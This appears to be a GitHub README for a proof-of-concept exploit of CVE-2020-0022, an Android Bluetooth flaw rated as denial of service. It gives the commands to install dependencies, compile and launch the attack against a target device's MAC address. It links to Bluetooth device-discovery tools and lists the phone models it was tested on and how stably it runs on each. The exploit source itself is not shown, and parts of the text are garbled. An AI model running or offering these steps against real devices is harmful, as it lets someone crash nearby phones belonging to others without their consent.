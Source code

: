 # CVE-2020-0022
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-0022

p0c_blue for CVE-2020-0022

## usage 
- - - Kali Linux
- - - Find d#v1c#s
```url
https://github.com/nu11secur1ty/Kali-Linux/tree/master/Bluetooth
https://github.com/nu11secur1ty/Kali-Linux/tree/master/Blueranger
```
- - - Ditrect program
```url
https://github.com/nu11secur1ty/Kali-Linux/tree/master/Bluevisku
```
- - - Need to install
```bash
apt install libbluetooth-dev
```
- - - Compiling
```bash
gcc p0c_blue.c -lbluetooth -o p0c_blue
```
- - - Attack
```bash
./p0c_blue MAC_ADDR
```

## info

- This poc_hould be stable on android 8.1.0,once it run into truncating packet, crash. But it cloud be very unstable, on Samsung s9 plus surely unstable.
- Run poc on raspberry pi 3B has been tested okay.
- run ubuntu/arch with vmware in windows 10 on thinkpad x1c 2018 or ubuntu with pd in mac os x could not run into truncating code , don't know why.

## Test List
- OnePlus 5T with Android 8.1.0: stable.
- Samsung s9 plus with Android 9.0: unstable.
- Nova 3 with Android 9: stable.

- - - Fix on OS 10
```

CVE	                References	      Type	       Severity	   Updated AOSP versions
-------------------------------------------------------------------------------------------------
CVE-2020-0022	        A-143894715	      DoS	         Moderate	       10
```
